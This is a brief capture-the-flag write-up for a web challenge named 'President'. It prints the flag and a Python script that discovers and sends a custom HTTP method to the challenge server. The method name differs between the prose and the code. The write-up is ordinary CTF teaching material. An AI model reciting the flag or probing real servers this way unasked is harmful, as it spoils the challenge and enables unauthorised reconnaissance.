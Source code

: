 # President
<p align="center">
  <img src="Attachments/Description.png" />
</p>

## FLAG:
` hctf{cust0m_ht7p_m3thod_1s_alway5_4_th1ng}` 

## Solution

the challenge is really simple because it is a web page with some static content. I tried changing the http request type from GET to OPTIONS and it showed up among the various requests "PRESIDENT" and with the help of python I set up that custom http request using the generic request method as shown below to take the flag.

```python
import requests

burp0_url = "https://president.hackappatoi.com/"
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Chromium\";v=\"119\", \"Not?A_Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7", "Priority": "u=0, i"}
print(requests.request("PRESIDENTE",url=burp0_url, headers=burp0_headers).text)
```

